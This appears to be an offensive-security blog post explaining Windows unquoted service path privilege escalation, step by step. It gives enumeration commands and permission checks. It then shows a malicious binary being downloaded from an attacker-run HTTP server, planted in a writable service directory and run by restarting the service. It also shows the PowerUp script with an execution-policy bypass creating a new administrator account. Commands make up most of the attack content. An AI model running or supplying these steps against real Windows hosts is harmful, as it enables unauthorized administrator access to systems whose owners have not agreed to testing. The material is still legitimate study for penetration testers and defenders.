 ```yaml
---
layout: post
title: Windows Unquoted Paths
titledate: 09/16/23
tags: ["infosec","offsec", "privesc", "powershell", "dll", "powerup"]
---
```


#### unquoted binary path abuse

when windows encounters an unquoted path to a binary application it follows a specific order of execution

- C:\Program.exe
- C:\Program Files\My.exe
- C:\Program Files\My Program\My.exe
- C:\Program Files\My Program\My service\service.exe

looking at the example above, for the binary service.exe it trys to execute the first word encountered by appending .exe to it assuming that we meant to call that the executable

for the first few directories we encounter that are Windows managed by default usually locked down pretty tight with permissions we can not do much (i.e Program.exe will likely not be a viable exploit option for us), however, as we continue down the path to directories and software that the user has created we will have more options. In the case above the My Service directory can be exploited by adding the My binary to the My Program files

if we want to enumerate running and stopped processes

    PS > Get-CimInstance -ClassName win32_service | Select Name,State,PathName

now we can enter a command to get us all binaries with their respective paths that are located outside the Windows directory

### C:> wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """

as always when working with services, to determine if our current user has the permissions required to execute the service, we begin by trying to start the service

    PS > Start-Service myservice
    PS > Stop-Service myservice

now we can uses icalcs to check the permissions of the service binary directories - check each dir

    PS > icacls "C:\Program Files\Enterprise Apps" (...\Current Version\nyservice.exe)

in this example we have write permissions available to the current user for the Enterprise Apps directory

so we can copy our malicious executable over - and label it Current.exe as the next path it is looking for is Curent Version

start our python server

    $ python3 -m http.server 80

now import the our binary

    PS > iwr -uri http://192.168.1.1/adduser.exe -Outfile Current.exe
    PS > copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'

now start the service to execute our code

    PS > Start-Service myservice

we may get a powershell error , but that does not necessarily mean our code did not execute before the script errored out

#### PowerUp automation

we can achieve similar results with the PowerUp powershell script

    PS > iwr http://192.168.1.1/PowerUp.ps1 -Outfile PowerUp.ps1

we copy the script over and allow the execution bypass

    PS > powershell -ep bypass

start the script

    PS > . .\PowerUp.ps1

execute the unquoted service option

    PS > Get-UnquotedService

and then check if we have the abuse function and point it to the path binary we are creating, by default this creates the john admin user, however we can modify to change the password of a current admin acount if we wish or any other sys level command

    PS > Write-ServiceBinary -Name 'myservice' -Path "C:\Program Files\Enterprise Apps\Current.exe"

to execute our code we need to restart the service

    PS > Restart-Service myservice

and again even if the script errors we may have achieved our code execution